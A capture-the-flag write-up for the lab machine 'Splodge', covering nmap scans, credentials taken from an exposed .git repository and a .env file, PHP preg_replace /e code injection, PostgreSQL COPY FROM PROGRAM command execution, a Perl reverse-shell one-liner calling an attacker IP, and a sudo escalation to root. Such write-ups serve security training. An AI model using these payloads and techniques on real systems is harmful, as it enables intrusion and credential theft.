 # Splodge

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.108
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:08 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
5432/tcp open  postgresql
8080/tcp open  http-proxy
```

Did a detailed scan for the web ports too:

```
$ sudo nmap -p 80,1337,8080 -sC -sV --min-rate 3000 192.168.157.108     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:09 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-git: 
|   192.168.157.108:80/.git/
|     Git repository found!
|     .gitignore matched patterns 'bug' 'key'
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: initial commit 
|_    Project type: node.js application (guessed from .gitignore)
|_http-title: 403 Forbidden
1337/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Commando
8080/tcp open  http    nginx 1.16.1
|_http-title: Splodge | Home
|_http-server-header: nginx/1.16.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit
```

There's a `.git` repository.

### Git Repo --> Creds

I downloaded the `.git` repository and looked through the logs with `git log -p -2`. However, it was way too long for me to analyse. Instead, I checked out the repository and checked for passwords:

```
$ grep -R password                                                 
database/migrations/2020_10_10_015036_create_settings_table.php:            $table->string('password');
database/seeds/DatabaseSeeder.php:            'password' => 'SplodgeSplodgeSplodge'
```

### Web Enum + Source Code --> RCE

Port 80 just showed us a 403 page, which was not helpful. Port 1337 did show some potential for RCE:

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

However, I was unable to make anything happen. Port 8080 showed a blog page with an admin login:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

We can login to the admin panel using `admin:SplodgeSplodgeSplodge`:

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

So now we know that the Git repository is for this application. This panel was rather interesting, because it has a 'Profanity Filter Regex' option, which I presume allows us to specify Regex strings within it.&#x20;

I was unable to find any source code for this Admin Panel specifically, but I can find some code to see what it does within `app/Http/Controllers`:

{% code title="PostController.php" %}
```php
public function comment(Request $request, Post $post)
    {
        error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED);
        $author = $request->input('commentAuthor');
        $message = $request->input('commentMessage');
        $settings = DB::table('settings')->first();
        $message = preg_replace($settings->filter, $settings->replacement, $message);
        DB::table('comments')->insert(['post_id' => $post->id, 'author' => $author, 'message' => $message]);
        $comments = DB::table('comments')->where('post_id', '=', $post->id)->get();
        return view('post', ['post' => $post, 'comments' => $comments]);
    }
```
{% endcode %}

It seems that there's a `preg_replace` function that replaces the regex matches with our replacement.&#x20;

Googling for PHP Regex exploits brings this up:

{% embed url="https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4" %}

From the article above, we can use regex of `/a/e` to inject PHP code. I tested this out:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Afterwards, I sent one comment with the letter 'a' in it. When I did, I got a hit on my HTTP server:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

We now have RCE over the machine, and we can easily get a reverse shell on port 8080:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PostgresSQL Creds --> User Shell

We spawned in the `/usr/share/nginx/html` folder, which had a `.env` file:

```
bash-4.2$ ls -al
total 180
drwxr-xr-x. 12   501 games   4096 Oct 17  2020 .
drwxr-xr-x.  5 root  root      49 Oct 17  2020 ..
-rw-r--r--.  1   501 games    362 Oct 17  2020 .env
drwxr-xr-x.  8 root  root     166 Oct 17  2020 .git
-rw-r--r--.  1   501 games    111 Jul  4  2017 .gitattributes
-rw-r--r--.  1   501 games    146 Jul  4  2017 .gitignore
drwxr-xr-x.  7 root  root      98 Oct 17  2020 app
-rwxr-xr-x.  1 root  root    1646 Jul  4  2017 artisan
drwxr-xr-x.  3 root  root      54 Oct 17  2020 bootstrap
-rw-r--r--.  1 root  root    1300 Jul  4  2017 composer.json
-rw-r--r--.  1 root  root  144904 Oct 11  2020 composer.lock
drwxr-xr-x.  2 root  root     209 Oct 17  2020 config
drwxr-xr-x.  5 root  root      90 Oct 17  2020 database
-rw-r--r--.  1 root  root    1043 Jul  4  2017 phpunit.xml
drwxr-xr-x.  3 root  root      71 Oct 17  2020 public
drwxr-xr-x.  5 root  root      45 Oct 17  2020 resources
drwxr-xr-x.  2 root  root      75 Oct 17  2020 routes
-rw-r--r--.  1 root  root     563 Jul  4  2017 server.php
drwxr-xr-x.  5 nginx nginx     46 Oct 17  2020 storage
drwxr-xr-x. 32 root  root    4096 Oct 11  2020 vendor

bash-4.2$ cat .env
APP_NAME=Splodge
APP_ENV=local
APP_KEY=base64:F9jFCNy0vJ1GhEsbf+PjmTSSHk8u741C5XNTN1Rguow=
APP_DEBUG=false
APP_LOG_LEVEL=info
APP_URL=http://splodge.offsec

DB_CONNECTION=pgsql
DB_HOST=127.0.0.1
DB_PORT=5432
DB_DATABASE=splodge
DB_USERNAME=postgres
DB_PASSWORD=PolicyWielderCandle120

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
QUEUE_DRIVER=sync
```

There's a database password there. We can then login with `psql` after fixing the `PATH` variable of this shell:

{% code overflow="wrap" %}
```
bash-4.2$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH

bash-4.2$ psql -U postgres -d splodge -h localhost
Password for user postgres: 
psql (12.4)
Type "help" for help.

splodge=# 
```
{% endcode %}

There's a feature within PostgreSQL that allows us to execute commands:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

We can just get another reverse shell using this:

{% code overflow="wrap" %}
```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.196:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

The payload is taken from Hacktricks.

### Root

User can run `bash` as `root`:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>
